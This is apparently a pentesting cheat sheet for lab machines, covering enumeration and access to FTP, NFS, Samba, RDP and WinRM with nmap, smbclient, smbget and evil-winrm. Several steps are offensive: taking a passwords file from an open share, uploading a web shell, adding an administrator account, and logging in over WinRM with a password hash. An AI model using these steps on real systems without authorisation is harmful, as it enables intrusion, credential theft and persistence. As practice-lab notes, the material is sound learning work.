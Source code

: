 ```yaml
---
title: Services
description: How to pentest different services.
---
```


## FTP (port 21)

`nmap -p 21 --script=ftp-anon 10.10.174.58`

## RPC / NFS (port 111, 2049, 20048)

Interesting files : `/etc/nfs.conf`, `/etc/fstab` and `/etc/exports`

```bash
$ rpcinfo -p | grep nfs

100003    3   tcp   2049  nfs
100003    4   tcp   2049  nfs
100227    3   tcp   2049  nfs_acl
```

Nmap NSE :

```bash
$ sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:48 CET
Nmap scan report for 10.10.220.222
Host is up (0.035s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *
| nfs-statfs:
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836532.0  6877096.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Show NFS mount

```bash
$ showmount -e 10.10.200.32
Export list for 10.10.200.32:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
$ sudo mkdir /mnt/nfs1
$ sudo mount -t nfs -o rw 10.10.200.32:/home/ubuntu/sharedfolder /mnt/nfs1
$ cd /mnt/nfs1
...
```

Mount NFS partition :

```
$ sudo mkdir /mnt/ntfs1
$ sudo mount -t nfs 10.10.220.222:/var /mnt/ntfs1
$ cd /mnt/ntfs1
$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

## Samba (port 139, 445)

```bash
$ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:35 CET
Nmap scan report for 10.10.220.222
Host is up (0.042s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.220.222\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.220.222\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.220.222\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

**3 shares :**

1. `\\10.10.220.222\IPC$`
2. `\\10.10.220.222\anonymous`
3. `\\10.10.220.222\print$`

SMB client for linux (`smbclient`) :

List shares :

```bash
$ crackmapexec smb 10.10.86.204 --shares

or

$ smbclient -L 10.10.86.204
Password for [MYGROUP\xanhacks]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

```bash
$ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
Password for [MYGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4932712 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> mput shell.aspx
Put file shell.aspx? y
putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
```

Recursively download all the files of the share using `smbget -R` :

```bash
$ smbget -R smb://10.10.220.222/anonymous
Password for [xanhacks] connecting to //anonymous/10.10.220.222: <press enter>
Using workgroup WORKGROUP, user xanhacks
smb://10.10.220.222/anonymous/log.txt
Downloaded 11.95kB in 1 seconds
```

## RDP (port 3389)

Windows user need to be in the `Remote Desktop Users` or `Administrators` group to use RDP.

```powershell
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```

RDP using `rdesktop` :

```bash
$ rdesktop -u <username> -p <password> <ip>
```

GUI using [remmina](https://remmina.org/).

## WinRM (port 5985)

Windows user need to be in the `Remote Management Users` group to use WinRM.

You can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to obtain a remote shell.

```bash
$ evil-winrm -i 10.200.10.196 -u administrator -p 'admin123'

$ evil-winrm -i 10.200.10.196 -u administrator -H '37db630168e5f82aafa8461e05c6bbd1'
```
